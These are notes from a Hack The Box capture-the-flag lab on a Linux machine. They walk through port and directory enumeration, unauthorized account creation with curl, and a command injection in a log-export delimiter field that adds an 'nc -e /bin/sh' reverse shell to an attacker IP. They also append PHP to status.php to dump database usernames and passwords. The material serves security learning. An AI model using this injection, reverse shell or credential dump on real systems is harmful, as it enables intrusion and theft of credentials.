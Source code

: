 Box Info

OS: Linux
IP: 10.10.11.104

Part I
Skills learned:

Curl/Python CMD injection
Enumeration

nmap -p- -A -oN Exploreprts.txt ${IP}

    22 OpenSSH
    80 Apache httpd 2.4.29

Dirb ${IP}/ -X .php

    /accounts.php
        Ability to create UN && PW
    /login.php
    /status.php

Step 1: User Account

    Create account with curl request
        curl -is -X POST -d "username=${UN}&password=${PW}&confirm=${PW}" ${IP}/accounts.php
    Login with new account:
        Upload access, "MySQL server is online and connected", 3(2) registered admins, sitebackup.zip, User: m4lwhere
        Management Menu -> Request Log Data: file delimeter

Step 2: CMD Injection

    inspect file delimeter
        change comma to inlcude a nc shell
            comma && nc -e /bin/sh ${AttackerIP} ${port#}
        setup a listner shell : nc -lnp ${port#}

Step 3: Shell

    python -V
    check https://github.com/crcirq32/Bash/blob/main/reverseshells.sh to upgrade shell
    m4lwhere seems to house all permissions
        Must access users from db to get more info on m4lwhere
            printf '<?php\n$db = connectDB();\n$query = "SELECT username, password FROM accounts";\n$users = $db->query($query);\nif ($users->num_rows > 0) {\nwhile($row = mysqli_fetch_assoc($users)) {\nvar_dump($row);\n}\n}\n$db->close();' >> status.php
            ${IP}/status.php should now connect to DB and expose users

TODO: 10.10.11.104 Hung up - Stuck in limbo. Contact HTB TODO: server is filtering my machine